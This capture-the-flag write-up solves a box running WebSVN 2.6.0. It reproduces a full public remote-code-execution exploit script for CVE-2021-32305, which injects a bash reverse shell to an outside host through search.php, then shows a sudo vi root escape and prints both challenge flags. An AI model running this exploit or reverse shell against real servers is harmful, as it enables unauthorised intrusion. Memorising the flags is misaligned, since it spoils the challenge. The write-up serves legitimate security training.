




# WebSVN

As the name suggests, there is a WebSVN server running on the machine.



```
Powered by WebSVN 2.6.0 and Apache Subversion 1.14.2
```

The version has a known vulnerability, `CVE-2021-32305`. <https://www.exploit-db.com/exploits/50042>, [50042.py](workdir/50042.py) .

```python
# Exploit Title: Websvn 2.6.0 - Remote Code Execution (Unauthenticated)
# Date: 20/06/2021
# Exploit Author: g0ldm45k
# Vendor Homepage: https://websvnphp.github.io/
# Software Link: https://github.com/websvnphp/websvn/releases/tag/2.6.0
# Version: 2.6.0
# Tested on: Docker + Debian GNU/Linux (Buster)
# CVE : CVE-2021-32305

import requests
import argparse
from urllib.parse import quote_plus

PAYLOAD = "/bin/bash -c 'bash -i >& /dev/tcp/10.0.1.2/4444 0>&1'"
REQUEST_PAYLOAD = '/search.php?search=";{};"'

parser = argparse.ArgumentParser(description='Send a payload to a websvn 2.6.0 server.')
parser.add_argument('target', type=str, help="Target URL.")

args = parser.parse_args()

if args.target.startswith("http://") or args.target.startswith("https://"):
    target = args.target
else:
    print("[!] Target should start with either http:// or https://")
    exit()

requests.get(target + REQUEST_PAYLOAD.format(quote_plus(PAYLOAD)))

print("[*] Request send. Did you get what you wanted?")
```



# Flag 1
flag{off_1_7b0f0f2d08a0c77baee541b00cbcf3d4}

# Privesc

Checking [sudo](https://linux.die.net/man/8/sudo), the current `apache` can run [vi](https://linux.die.net/man/1/vi).

```bash
sudo -l
```



The `vi` process is running as `root` this way, which is trivial to escape.

A vi így rootként fut, melyből triviális parancsokat futtatni.

```
:!/bin/bash 
```



# Flag 2
flag{off_2_c80872811fde160d6f44e6a8f062df60}
